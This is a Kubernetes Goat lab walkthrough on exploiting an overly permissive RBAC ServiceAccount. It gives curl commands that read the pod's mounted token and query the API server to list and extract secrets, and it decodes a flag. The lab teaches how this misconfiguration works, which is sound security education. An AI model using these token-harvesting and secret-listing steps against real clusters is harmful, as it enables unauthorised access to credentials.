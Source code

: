 # ⎈ RBAC least privileges misconfiguration

## 🙌 Overview

In the early days of Kubernetes, there is no such concept as RBAC (role-based access control) and mostly it uses ABAC (attribute-based access control). Now it has superpowers like RBAC to implement the security principle of least privilege. Still, most of the real-world workloads and resources end up having wider privileges than it is intended to have. In this scenario, we will see how simple misconfiguration like this can gain access to secrets, more resources, and information.

![](images/scenario-diagram-wip.png)

By the end of the scenario, we will understand and learn the following

1. Accessing and talking to the Kubernetes API Server using the REST API
2. Working with different Kubernetes resources and querying them
3. Exploiting the misconfigured/overly permissive permissions to gain access to sensitive information and resources

### ⚡️ The story

We commonly see in the real world where developers and DevOps teams tend to provide extra privileges than required. This provides attackers more control and privileges than they intended to be. In this scenario, you can leverage the service account bound to the pod to provide `webhookapikey` access, but using this attacker can gain control over other secrets and resources.

:::info

To get started with the scenario, navigate to [http://127.0.0.1:1236](http://127.0.0.1:1236)

:::

![Scenario 16 Welcome](images/sc-16-1.png)

### 🎯 Goal

:::tip

Find the `k8s_goat_flag` flag value by gaining access to the Kubernetes secret `k8svaultapikey` by exploiting the RBAC privileges to complete this scenario.

:::

### 🪄 Hints & Spoilers

<details>
  <summary><b>✨ Not sure where the ServiceAccount in k8s pod? </b></summary>
  <div>
    <div>Simple googling and looking at docs can show that you can get service account details avaiolable in pod at <b>/var/run/secrets/kubernetes.io/serviceaccount/</b> 🙌</div>
  </div>
</details>

<details>
  <summary><b>✨ Stuck at querying the API Server? </b></summary>
  <div>
    <div>Again look at docs here as well. To save your time, here you go <a href="https://kubernetes.io/docs/tasks/run-application/access-api-from-pod/">Accessing the Kubernetes API from a Pod</a>. Have fun 🎉</div>
  </div>
</details>

## 🎉 Solution & Walkthrough

### 🎲 Method 1

:::info

This deployment has a custom `ServiceAccount` mapped with an overly permissive policy/privilege. As an attacker, we can leverage this to gain access to other resources and services.

:::

* By default the Kubernetes stores all the tokens and service accounts information in the default place, navigate to there to find the useful information

```bash
cd /var/run/secrets/kubernetes.io/serviceaccount/
```

```bash
ls -larth
```

![Scenario 16 checking service account](images/sc-16-2.png)

* Now we can use this information to query and talk to the Kubernetes API service with the available permissions and privileges

* To point to the internal API server hostname, we can export it from environment variables

```bash
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
```

* To set the path to the `ServiceAccount` token

```bash
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
```

* To set the namespace value

```bash
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
```

* To read the `ServiceAccount` bearer token

```bash
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
````

* To point the `ca.crt` path so that we can use it while querying in the `curl` requests

```bash
export CACERT=${SERVICEACCOUNT}/ca.crt
```

* Now we can explore the Kubernetes API with the token and the constructed queries

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
```

![Scenario 16 mapping credentials](images/sc-16-3.png)

* To query the available secrets in the `default` namespace run the following command

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/secrets
```

![Scenario 16 query secrets in default namespace](images/sc-16-4.png)

* To query the secrets specific to the namespace

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
```

![Scenario 16 query secrets in specific namespace](images/sc-16-5.png)

* To query the pods in the specific namespace

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/pods
```

![Scenario 16 query pods in specific namespace](images/sc-16-6.png)

:::tip

From here you can try and leverage all the possible Kubernetes operations. As Kubernetes itself works as an API service to create, and delete pods, etc.

:::

* Get the `k8svaulapikey` value from the secrets

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep k8svaultapikey 
```

![Scenario 16 get k8svaultapikey](images/sc-16-7.png)

* We can decode the base64 encoded value using the following command

```bash
echo "azhzLWdvYXQtODUwNTc4NDZhODA0NmEyNWIzNWYzOGYzYTI2NDlkY2U=" | base64 -d
```

* Hooray 🥳 , we found an awesome Kubernetes Goat flag

## 🔖 References

* [RBAC Authorization Kubernetes](https://kubernetes.io/docs/reference/access-authn-authz/rbac/)
* [Accessing the Kubernetes API from a Pod](https://kubernetes.io/docs/tasks/run-application/access-api-from-pod/)
